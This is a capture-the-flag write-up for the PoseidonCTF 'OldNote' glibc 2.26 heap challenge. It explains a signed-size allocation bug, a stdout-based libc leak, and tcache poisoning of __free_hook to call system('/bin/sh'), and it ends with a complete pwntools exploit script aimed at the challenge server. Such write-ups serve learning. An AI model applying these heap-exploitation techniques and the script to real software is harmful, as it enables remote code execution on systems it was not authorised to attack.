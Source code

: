# PoseidonCTF

Good quality CTF from `From Sousse, with love`. DiceGang takes second.

Notably I helped with 1 heap, which got 4-5 solves. Unfortunately I had to go
to sleep right before getting libc leaks so OP pepsi on the West Coast solved
submitted, but I solved afterwards for fun.

## OldNote  
> Old, but gold  
>  
> nc poseidonchalls.westeurope.cloudapp.azure.com 9000

Full security checks are in place, so it's a heap chall. The provided libc and
ld are for glibc 2.26, which has tcache included.

The program allows us 4 slots which hold pointers to malloc'ed chunks. We can
only create and delete these chunks, so no easy :leeks:

We also cannot allocate chunks larger than 0x100 size.

### Vuln  
The issue comes down to how the sizes are read. The function to read an int
uses atoi, which returns a *signed* integer. This means we can request to
alloc negative sizes.

However, alloc would return a useless NULL on negative size allocation, right?
Wrong.

We can use [CVE-2017-17426: malloc returns pointer from tcache_get when should
return NULL](https://sourceware.org/bugzilla/show_bug.cgi?id=22375) to get a
chunk back from the first tcache index (0x20 size).

Great, now we have a chunk that we aren't supposed to get. The next step is to
realize that after allocation, we are allowed to write to the chunk up to the
size.

The problem is that a size of -1 will allow us to write basically a huge
amount of bytes to the chunk, easily overflowing the chunk.

## Libc Leak  
Definitely the most difficult part of this chall. As there is no way to read
from a chunk, we can't just get a chunk into unsorted and read from it.

However, [someone has already done](https://vigneshsrao.github.io/babytcache/)
this type of attack that we need!

We just have to write a few bytes of data to `_IO_2_1_stdout_`, which can be
achieved with a 4 bit brute force from a known libc address...

So our plan to leak libc from a high level is:  
- Get a chunk into unsorted bin by overflowing its size from the previous chunk, forging a few chunks to reconnect to the top, and freeing it  
- Overflow the chunk again, and partially overwrite the fwd with a hardcoded `_IO_2_1_stdout_` address  
- Write some data to `_IO_2_1_stdout_` to leak a bunch of addresses on the next print

### Unsorted bin chunk  
To get a chunk into unsorted, we first need to overflow the size (as there's a
<= 0x100 size restriction using the program).

This can be easily done by allocating two 0x10 chunks (will end up in 0x20
tcache), deleting the first chunk, and then allocating a chunk of size -1.

Allocating a chunk of size -1 will pull a chunk from the 0x20 tcache, as well
as giving us a heap overflow.

Let us write the size of our second chunk as 0x420.

Then, we need to forge a chunk at our first chunk + 0x420 so that the free
checks pass. While we're there, let's change the size so that it points back
to the top chunk, so it looks nicer :)

Then, we can free the chunk at index 1 (our unsorted chunk) to write some libc
pointers to the chunk.

### Partial OW  
We can achieve a partial overwrite by allocating a 0x14 sized chunk, and then
overflowing it to write into the unsorted chunk.

The way this works is that when we request a 0x14 sized chunk, the current
tcache index (0x20) is empty, so it pulls from unsorted. When malloc pulls
from an unsorted chunk, it takes out the requested size from the chunk and
returns it.

It also writes libc pointers into the remainder of the original chunk so it
can be kept in the unsorted bin.

We can take advantage of this with our overflow: If we overflow a chunk that
came from unsorted, we'll be writing to the remainder of the unsorted chunk,
that's still in unsorted!

### Writing to stdout data  
Recall that the fwd and bk of a single unsorted chunk point to somewhere in
`main_arena`.

The last 3 nibbles of any `_IO_2_1_stdout_` address are `0x720`. Unfortunately
the fourth to last nibble is not the same from `main_arena` to
`_IO_2_1_stdout_`, so we need to hardcode that nibble and just brute force
until it lines up.

Following the HITCONCTF baby_tcache writeup, we write a `0xfbad1800`, followed
by a bunch of nullbytes (25, to be exact) to `_IO_2_1_stdout_` to leak a lot
of libc pointers. We can recover the base address this way on the next call to
print.

### RCE  
From our libc exploration, we created an unsorted bin chunk, that overlapped
with a couple of tcache chunks that we used to forge a chunk to reconnect to
the top chunk.

We can simply just allocate some chunks from said unsorted bin chunk, which
overlap with some tcache chunk, in order to write to the tcache pointers, in
effect creating a sort of unsorted-tcache bin dup and achieving tcache poison.

We allocate some chunks to get an overlap with a tcache chunk, and then we
write to a previously freed tcache chunk's fwd with `__free_hook`.

Then, we just tcache poison to write to `__free_hook` with `system()`, and
free a chunk with `/bin/sh` in it.

Flag: `Poseidon{g00d_0ld_t1me_wh3n_tc4ch3_1s_571ll_cut3}`

### Script  
```python  
from pwn import *

e = ELF("./oldnote")  
libc = ELF("./libc-2.26.so")  
ld = ELF("./ld-2.26.so")

context.binary = e  
context.terminal = ["konsole", "-e"]

while True:  
   #p = process([ld.path, e.path], env={"LD_PRELOAD": libc.path})  
   p = remote("poseidonchalls.westeurope.cloudapp.azure.com", 9000)

   #context.log_level="debug"  
   #gdb.attach(p, """p stdout \n info addr main_arena""")  
  
   def new(size, dat):  
       p.sendlineafter(": ", "1")  
       p.sendlineafter(": ", str(size))  
       p.sendafter(": ", str(dat))

   def remove(idx):  
       p.sendlineafter(": ", "2")  
       p.sendlineafter(": ", str(idx))

   new(0x10, "A")  
   new(0x10, "B")

   for i in range(0x90, 0xd1, 0x10):  
       new(i, "i")  
       remove(2)

   new(0xe0, "i"*0x30+p64(0x421)+p64(0xe0-0x32+3))

   remove(0)

   new(-1, "C"*0x18 + "\x21\x04")

   remove(1)  
  
  
   # tcache for 0x20 is empty so get a chunk in there to pull later  
   new(20, "A")  
   remove(1)  

   new(-1, "A"*16 + p64(0x21) + p64(0x400) + "\x20\xe7")  
  
  
   remove(0)  
  
  
   new(144, "A")  
  
  
  
   new(144, p64(0xfbad1800)+p64(0)*3+"\x00")  
  
   try:  
       dat = p.recvline()  
       libc.address = u64(dat[24:32]) - 0x3d73e0  
   except struct.error:  
       print("skip")  
       continue  
   except EOFError:  
       print("asdf")  
       continue  
  
   print("libc base", hex(libc.address))  
  
  
   remove(0)  
  
  
   new(0xe0, "iiiiiiii")  
  
   remove(0)  
  
   print("libc free hook", hex(libc.sym["__free_hook"]))  
   print("libc system", hex(libc.sym["system"]))  
  
   new(0xf0, "B"*0x50 + p64(0) + p64(0xc1) + p64(libc.sym["__free_hook"]))  
  
   remove(0)  
  
   new(0xb0, "/bin/sh")  
  
   remove(1)  
  
   new(0xb0, p64(libc.sym["system"]))  
  
   remove(0)  
  
  
   p.interactive()  
```  

Original writeup
(https://github.com/joshdabosh/writeups/tree/master/2020-PoseidonCTF).
